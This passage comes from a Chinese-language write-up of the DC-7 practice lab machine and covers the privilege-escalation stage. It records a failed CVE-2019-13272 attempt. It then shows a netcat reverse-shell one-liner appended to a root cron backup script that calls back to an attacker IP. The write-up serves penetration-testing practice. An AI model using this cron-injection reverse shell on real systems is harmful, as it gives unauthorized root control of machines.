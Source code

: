 ![www-data](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\www-data.png)

接下来提权，没有sudo命令，看看suid,和dc7user能使用的相同，没有别的命令，尝试使用CVE-2019-13272内核漏洞进行提权，但是由于编译器版本问题，我们的脚本仍然没有办法在靶机上执行

```
www-data@dc-7:/tmp$ ./dc7
./dc7
./dc7: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./dc7)
./dc7: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./dc7)
```

看了看WP，是利用计划任务进行提权，由于/opt/scripts/backups.sh文件仅www-data和root能够写入，这也是为什么我们需要获取www-data的shell的原因

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.121.135 6666 >/tmp/f" >> backups.sh
```

root用户每15分钟执行一次该文件

![root](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\root.png)

成功拿到shell后读取flag即可

![flag](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\flag.png)

## 总结：

可能是没有把靶机当作真实环境来做，没有想到搜集用户信息还会有git泄露，以及在查看脚本文件时去猜测字段内容，是否具有定时任务，关键的文件最好是去查看文件的权限来确定下一步的目标